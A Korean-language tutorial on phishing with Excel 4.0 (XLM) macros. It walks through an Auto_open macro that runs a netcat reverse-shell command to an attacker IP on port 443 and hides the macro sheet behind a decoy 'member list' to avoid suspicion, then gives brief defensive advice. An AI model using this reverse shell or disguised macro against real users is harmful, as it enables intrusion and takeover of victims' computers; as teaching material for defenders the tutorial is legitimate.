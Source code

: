 # XLM Excel 4.0 매크로

XLM (Excel 4.0) 매크로를 사용한 피싱 탬플랫 기법은 매우 전통적이고 유래가 깊은(?) 공격 탬플릿  기법이다. 이 기법을 사용한 공격은 주로 악성코드를 포함한 문서 파일을 이메일 첨부파일이나 링크를 통해 유포하는 사이버 범죄자나 해커들이 초기 침투 방식으로 사용하는 탬플릿 중 하나이기도 하다.

다행스럽게도, 최근 버전의 Microsoft Office에서는 VBA 매크로 실행을 디폴트로 비활성화하게 되어있고, XLM (Excel 4.0) 매크로를 사용한 공격 기법은 1990년대에 개발된 굉장히 오래된 기술이며 안 기술의 발전으로 인해 많이 찾지 않는 공격 기법이다. 따라서, 최근에는 XLM 매크로를 사용하는 공격이 VBA 매크로를 사용하는 공격보다는 정식 파일에 chm,lnk,hta등을 심어 사용하는 기법이 주로 쓰인다.

하지만 혹시라도 매크로 공격에 취약한 Excel 4.0과 5.0버전을 아직까지도 쓴다거나 블랙 해커가가 화려한언변과 소셜 엔지니어링을 통해 타겟 유저가 스스로 매크로 활성을 하게 유도한다면 매크로 공격은 쉽고도 정확한 공격 기법이 될수 있다.

## 실습

실습을 위해 File -> Info -> Macro Settings -> Enable VBA Macros...를 선택해 매크로를 활성화해준다.

![](<../../obsidian\_resources/Pasted image 20230502195135.png>)

아래 시트에서 우클릭 -> Insert (추가) -> MS Excel 4.0 Macro -> OK를 해준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502193306.png" alt=""><figcaption></figcaption></figure>

간단한 테스트를 위해 아래 같이 각 열에 입력하여 계산기 (calc.exe)와 함께 "HELLO WORLD" 구문이 열리는지 확인해본다.

```
=EXEC("calc.exe")
=ALERT("HELLO WORLD!")
=HALT()
```

성공했다! 이제 우리는 EXCEL의 매크로를 통해 커맨드 EXEC로 앱 실행이 가능하다는 것을 알았다!&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502193523.png" alt=""><figcaption></figcaption></figure>

### 실전 예제

실전 예제를 들어보자.

이제 공격자는 타겟이 사용하는 EXCEL 매크로 기능을 통해 로컬 바이너리를 실행할 수 있다라는 사실을 알았다.

그렇다면 공격자는 간단한 netcat 리버스 쉘을 실행하는 백도어를 매크로에 심어 타겟이 공격자에 연결되게끔 할수 있다는 말이다!

shell.cmd 에 \`ncat 192.168.137.131 443 -e cmd.exe 를 저장한다. 공격자에 포트 443로 연결을 시도한다라는 뜻이다.

아래와 같이 shell.cmd를 실행하는 매크로를 생성하고 A1을 Auto\_open으로 바꿔주면 파일이 열림과 동시에 매크로가가 자동으로 실행될게 해줄수 있다.

```
=EXEC("C:\Temp\shell.cmd")
=ALERT("GROOT!")
=HALT()
```

![](<../../obsidian\_resources/Pasted image 20230502195827.png>)

일단 매크로 구문이 들어있는 EXCEL 파일은 누가봐도 수상하기 때문에 Hide (숨기기)를 해주고 정상 파일로 보이게 "회원 명단"과 같은 내용을 넣어준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502195849.png" alt=""><figcaption></figcaption></figure>

타겟 유저가 보는 EXCEL 파일에는 매크로 탭은 보이지 않고 "회원 명단"만 보이게 되어 의심을 피할 수 있다.

<figure><img src="../../obsidian_resources/Pasted image 20230504185904.png" alt=""><figcaption></figcaption></figure>

이제 타겟이 이 EXCEL 파일을 여는 순간 아래와 같이 공격자의 포트 443으로 리버스 쉘이 연결된 것을 알수있다!&#x20;

<figure><img src="../../obsidian_resources/화면 캡처 2023-05-02 200259.png" alt=""><figcaption></figcaption></figure>

## 대응방안

XLM (Excel 4.0) 매크로를 사용한 공격 기법에 대응하기 위한 방안은 매크로 공격에 취약한 Excel을 최신 버전으로 패치하는거다. 또한 대부분의 안티바이러스 및 방화벽과 같은 보안 솔루션을 XLM 매크로 실행을 탐지하고 차단할 수 있으니 너무 걱정은 하지 않다도 되지만 그래도

마지막으로, 너무나도 당연하지만 수상한 이메일 첨부 파일이나 다운로드 링크를 클릭하지 않아야 한다. 만약에 매크로를 활성화해야 한다는 IT부서의 권고 이메일을 받게 되면 진짜 IT부서가 맞는지 의심하고 또 의심하길 바란다.

## 레퍼런스

{% embed url="https://en.wikipedia.org/wiki/Microsoft_Excel" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-xlm-macro-4.0" %}

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf" %}

